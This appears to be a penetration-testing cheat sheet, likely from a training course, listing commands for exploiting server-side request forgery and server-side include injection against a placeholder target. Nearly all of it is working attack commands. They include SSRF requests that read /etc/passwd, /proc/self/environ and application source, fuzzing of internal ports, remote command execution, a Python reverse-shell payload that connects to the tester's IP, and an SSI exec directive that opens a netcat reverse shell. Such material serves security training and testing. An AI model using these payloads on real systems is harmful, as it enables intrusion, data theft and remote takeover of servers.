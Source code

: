 # Server side request forgery

| Command | Description |
| --- | --- |
| `curl -i -s "http://<TARGET IP>/load?q=http://<VPN/TUN Adapter IP>:8080"` | Testing for SSRF vulnerability |
| `python3 -m http.server 9090` | Starting the python web server |
| `sudo pip3 install twisted` | Installing the ftp server |
| `sudo python3 -m twisted ftp -p 21 -r .` | Starting the ftp server |
| `curl -i -s "http://<TARGET IP>/load?q=http://<VPN/TUN Adapter IP>:9090/index.html"` | Retrieving a remote file through the target application (HTTP Schema) |
| `curl -i -s "http://<TARGET IP>/load?q=file:///etc/passwd"` | Retrieving a local file through the target application (File Schema) |
| `for port in {1..65535};do echo $port >> ports.txt;done` | Generating a wordlist of possible ports |
| `ffuf -w ./ports.txt:PORT -u "http://<TARGET IP>/load?q=http://127.0.0.1:PORT" -fs 30` | Fuzzing for ports on the internal interface |
| `curl -i -s "http://<TARGET IP>/load?q=http://127.0.0.1:5000"` | Interacting with the internal interface on the discovered port |
| `curl -i -s "http://<TARGET IP>/load?q=http://internal.app.local/load?q=index.html"` | Interacting with the internal application |
| `curl -i -s "http://<TARGET IP>/load?q=http://internal.app.local/load?q=http://127.0.0.1:1"` | Discovering web application listening in on localhost |
| `curl -i -s "http://<TARGET IP>/load?q=http://internal.app.local/load?q=http::////127.0.0.1:1"` | Modifying the URL to bypass the error message |
| `curl -i -s "http://<TARGET IP>/load?q=http://internal.app.local/load?q=file:://///proc/self/environ" -o -` | Requesting to disclose the /proc/self/environ file on the internal application |
| `curl -i -s "http://<TARGET IP>/load?q=http://internal.app.local/load?q=file:://///app/internal_local.py"` | Retrieving a local file through the target application |
| `curl -i -s "http://<TARGET IP>/load?q=http://internal.app.local/load?q=http::////127.0.0.1:5000/runme?x=whoami"` | Confirming remote code exeuction on the remote host |
| `sudo apt-get install jq` | Installing jq |

### Blind SSRF Exploitation Example

| Command | Description |
| --- | --- |
| `nc -lvnp 9090` | Starting a netcat listener |
| `echo "\<B64 encoded response>" | base64 -d` | Decoding the base64 encoded response |
| `export RHOST="<VPN/TUN IP>";export RPORT="<PORT>";python -c 'import sys,socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));\[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("/bin/sh")'` | Reverse shell payload (to be URL encoded twice) |

### SSI Injection Exploitation Example

### SSI Directive Payload Description

| Command | Description |
| --- | --- |
| `<!--#echo var="DATE_LOCAL" -->` | Date |
| `<!--#printenv -->` | All variables |
| `<!--#exec cmd="mkfifo /tmp/foo;nc <PENTESTER IP> <PORT> 0</tmp/foo /bin/bash 1>/tmp/foo;rm /tmp/foo" -->` | Reverse Shell |
